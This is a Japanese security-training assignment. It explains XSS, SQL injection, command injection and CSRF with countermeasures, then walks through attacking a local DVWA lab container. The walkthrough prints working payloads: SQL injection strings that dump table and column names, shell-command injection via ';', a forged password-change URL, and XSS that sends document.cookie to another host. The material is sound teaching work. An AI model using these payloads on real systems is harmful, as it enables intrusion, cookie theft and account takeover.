




# 課題1

## それぞれの脆弱性の仕組み、被害、対処法

### ◼️XSS
クロスサイトスクリプティング。<br>攻撃対象のサイトに対して、悪質なサイトへ誘導（サイトをクロスする）するスクリプトを仕掛け、<br>
サイトに訪れたユーザーの個人情報を搾取するなどを実施する、<br>
IPA（情報処理推進機構）の調査では2020年3期では半数以上の被害が発生しているなど、多くの件数が発生している。<br>
https://www.amiya.co.jp/column/cross_site_scripting_20210118.html<br>
Twitterやyoutubeなど、有名なサイトでの報告事例もある

<br>
◼️対処法<br>

◼️入力値の制限<br>
たとえば郵便番号を入力するフォームでは、数字以外の文字種を入力できないように制限する、<br>
ID・パスワードを入力するフォームでは半角英数字●文字までしか入力できないなどの制限をするなど<br>
入力内容に応じて入力値を制限する方法があります。<br>

◼️サニタイジング<br>
フォームに、スクリプトの構成に必要になるような文字が入力された場合に、その文字を他の文字へ書き換える手法です。<br>
例　「<」 は「&lt;」に変換。「>」は 「&gt;」に変換するなどの方法です。
<br>

◼️WAF設定<br>
サーバーやネットワーク機器で利用するサービスとして提供されているWAF設定を利用する<br>

参考
https://www.amiya.co.jp/column/cross_site_scripting_20210118.html<br>
https://www.kagoya.jp/howto/network/xss/

### ◼️コマンドインジェクション
OSコマンドを呼び出せる様々な言語で実施できる脆弱性攻撃。<br>
Cookie やフォームのデータ、URL のクエリパラメーターといった、ユーザーから提供されたデータの一部を使ってオペレーティングシステムコマンドを実行する攻撃です。<br>
この攻撃により、サーバ内に保存されているファイルを読み出したり、システムに関係する操作、プログラムを不正に実行することが可能になります。<br>
情報の改竄、サーバー内ファイルの変更、データベースの破壊など、実行権限を高い権限で乗っ取られるほどに危険性が高いです。<br>
<br>
◼️対処法<br>
安全なプラットフォーム API やクライアントライブラリを利用する、侵入検知システムの導入などを検討する。<br>
WebアプリケーションからOSコマンドを呼び出さないようにする。<br>
例として、言語によりOSコマンドを呼び出すことができる代表的な関数・メソッドがあるため、それらを利用している箇所を洗い出し、代替えの方法がないかを検討する。<br>
関数例/PHPの場合<br>exec(), system(), passthru(), shell_exec(), pcntl_exec() など<br>

また入力情報により発生するため、フォームのバリデーションを厳格に行う、などの方法があります。


### ◼️SQLインジェクション
文字通り、不正なSQLを注入することで、データベースを操作する処理のことを指します。<br>
例として、サイト内をキーワードで検索できるフォームがあり、<br>攻撃者がそのフォームへ不正な内容を盛り込んだSQL文を入力し検索を行うことでそのSQL文の内容が実行される、というものがあります。<br>
データベース内部にアクセスできることで、重要な機密情報が漏洩したり、サイトを改竄したりすることが可能です。
<br><br>
◼️対処法<br>
対策としては、プログラム的な意味合いを持つ文字列を置き換えるエスケープ処理、<br>
SQLにおいては検索文字などに静的プレースホルダを使う、<br>
Web Application Firewall(WAF)を導入する、<br>
脆弱性診断サービスを導入するなどの方法があります。


### ◼️CSRF
クロスサイトリクエストフォージェリ。<br>ユーザーが意図しない、望んでいないアクションを強制的に実行させる脆弱性です。
XSSは掲示板など、フォームの脆弱性を狙ったものですが、CSRFはセッション管理における脆弱性を狙います。

セッション管理に脆弱性のあるwebサイトにログインした状態で、対象のユーザーを悪意あるサイトに誘導。<br>
攻撃用のリクエストURLをクリックさせ、脆弱性のあるwebサイトに、強制書き込みや改竄などの不正な操作を実施する。対象ユーザーのセッションidを利用して行います。<br>
CSRFを使い、過去、mixiに「ぼくはまちちゃん！ こんにちはこんにちは!!」と大量に書き込まれる事例がありました。

◼️対処法<br>
・ユーザー側の対策<br>
使用していない時はサービスからログアウトする、ブラウザにパスワードを記憶させない<br>

・アプリ側の対策<br>
トークンを利用する。ユーザーのセッション情報に一意のトークンを持たせ、サーバー側で保持している情報と一致しなければ不正なリクエストとして除外します。<br>

・SameSite=Lax や SameSite=Strictの追加<br>
SameSite=Lax や SameSite=Strictをhttpヘッダーに指定する方法があります。<br>


# 課題2
## クイズ！
SQLインジェクションは、フォームの入力欄にSQLを操作するような文字列を入力し実行できてしまい、それによりデータベースの操作ができてしまう脆弱性です。<br>
とはいえ、そのようなサイトを悪い人が見つけても、サービスのデータベースの各種テーブル名がわからないと、効率的に攻撃することはできません。<br>
しかし、SQLインジェクションに対する脆弱性のあるサイトについてはテーブル名を取得する方法も別途あったりします。そのためにはどのような情報を利用するのでしょうか。<br>
（具体的な例、SQLではなく、概要、または名称がわかればOKです！）


# 課題3
dockerで実施。<br>
```
docker run --rm -it -p 80:80 vulnerables/web-dvwa
```
で該当のコンテナをスタート。<br>
adminとpasswordでログインし、create databaseで数秒するとデータベースが作成され再度ログイン画面にアクセスし、メニューがサイドに作成されます。
サイドメニューからそれぞれの脆弱性のアクションを実行できます。また、それぞれの裏側のコードは右下のview sourceから確認可能です。


### SQLインジェクション

サイドメニューの「sqlインジェクション」で色々な情報を見てみます。
1や２を入れると、それぞれのユーザーの名前を確認できます。
ソースを見ると
```
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"; 
    //$idは入力値
```

という処理があり、入力された数字を使いwhereで検索をしているようです。
脆弱性を突く方法として、
```
 1' OR 'a'='a
```
を入れることで全てのユーザー名を確認できてしまいます。sqlインジェクションの脆弱性があることがわかります。
```
' union select table_name,table_schema from information_schema.tables where table_schema = 'dvwa' #
```
でテーブル名guestbookとuserが確認できました。

続いて、
```
' union select table_name,column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' #
```
でusersテーブルの全カラムが取得できます。


#### 答え合わせのためrmysqlを起動
別ターミナルでdockerのコンテナ環境に入る（コンテナが起動している必要がある）
docker exec -it silly_kalam(コンテナ名) bash
コンテナから抜ける
exit 

そのまま　コンテナ内で
mysql -u root -p
でmysqlにログイン。パス入れずに。
show databasesで一覧が取得。dvwaが対象のデータベースと思われる。
use database名;で該当dbを選択。今回は use dvwaを選択。
show tables;で現在いるdbのテーブルを取得。
guestbookとuserテーブルが取得できます。


show full columns from users;　またはguestbook でテーブル一覧が取得。テーブル名が一致していることが確認できました。
sqlインジェクションによりテーブル情報が取得できている状態です。

ユーザーズ

ゲストブック


[対策]
入力された内容で別のsqlが組み立てられないように、エスケープを行います。<br>
phpの場合、mysqli_real_escape_stringなどがあります。

参照：
https://qiita.com/y-araki-qiita/items/131efa82c4205e83fef8
https://www.dbonline.jp/mysql/database/index3.html


### コマンドインジェクション
メニューからCommand Injectionを選び、自分のipを入力します。<br>
https://www.cman.jp/network/support/go_access.cgi などでipを確認

するとpingの結果がかえります。また、右下のview sourceから裏のソースを見ると、中でshell_execを実行しipに対してpingした結果を返している様です。

単にipを入力するのではなく、その後に;pwdと入れると現在地がわかってしまいます。<br>
※pwdはカレントディレクトリのフルパスを出力する UNIX系 OS のコマンドです。


そのほか、「自分のip; ls」 と入れると、存在しているファイル一覧。
自分のip cat;index.php
と入れると、アプリ内のこのファイル自体を画面に表示してしまいます。
コマンドインジェクション


[対策]
これらの操作をさせないようにする対策として、入力した文字列の中で";"や"&&"などが入っていたらエスケープさせる、というものになります。

参照
https://cysec148.hatenablog.com/entry/2019/11/02/105230

### CSRF
同様にメインメニューの中からCSRFを選ぶと、パスワード変更が可能な画面になります。<br>
ここで「test」を新しいパスワードとして変更してみます。

すると<br>
http://localhost/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change#
上記のurlへアクセスし、パスワードの変更が完了しました。urlから変更後のパスワードが確認できてしまいます。
これを見ると、例えば「hoge」というパスワードに変更させたい場合、

・サービスにログインしている状態
・かつ、http://localhost/vulnerabilities/csrf/?password_new=hoge&password_conf=hoge&Change=Change#

にアクセスさせれば実現できそうです。
実際にログインした状態で、上記のurlにアクセスすれば、該当ユーザーのパスワードが変更できてしまいました。
悪意のある人間が行う手法としては、サイト内に外部サイトへのリンクを用意し、そこに上記のurlを仕込むことができれば再現できるという状態です。

対策としては、まず重要なパスワードなどの情報をgetのパラメータに設定をしないようなアプリの設計が必要です。
また、postの場合でも変更時のリクエストに、一意のトークンを持っていない場合は処理を成功させないようにする必要があります。


### XSS

同じく上記サイトでXSSのメニューのうち、XSS（DOM）を選びます。
言語選択箇所で選ぶと、<br>
http://localhost/vulnerabilities/xss_d/?default=English
http://localhost/vulnerabilities/xss_d/?default=French
など、選択した言語がurlとして含まれます。<br>
ここにjavascriptを実行することで攻撃が可能です。<br><br>

例としてこのURLにアクセスすると、自分のクッキーが画面にアラートで表示されます。<br>
```
http://localhost/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>
```

ここでjsの実行が可能そうです。
```
http://localhost/vulnerabilities/xss_d/?default=<script>window.location="http://localhost?hisCookie="+document.cookie</script>
```

と入力すると、別のurlに飛ばし（この場合http://localhost）、さらにurl上にアクセスした人のクッキーが表示されます。<br>
例えばTwitterの検索後のurlも同様にクエリを含んでいるため、<br>
```
http://localhost/vulnerabilities/xss_d/?default=<script>window.location="https://twitter.com/search?q="+document.cookie+"&src=typed_query"</script>
```
と入力すると、Twitterの画面にとび、userのクッキーを取得できます。<br>


上記はTwitterへ飛ばした状態ですが、悪意のある人が自身の、見た目をDVWAにせたサイトにリダイレクトさせ、<br>
その中でurlからクッキーを取得するような処理を実行すると、クッキーが取得されてしまいます。<br>

[対策]
対策としては、getパラメータの中でscriptが含まれている場合は除外する、またはこのページの場合はENGLISH、Frenchなどの決まった文字列以外が入ってきた場合は
正常処理を行わないなどの方法となります。
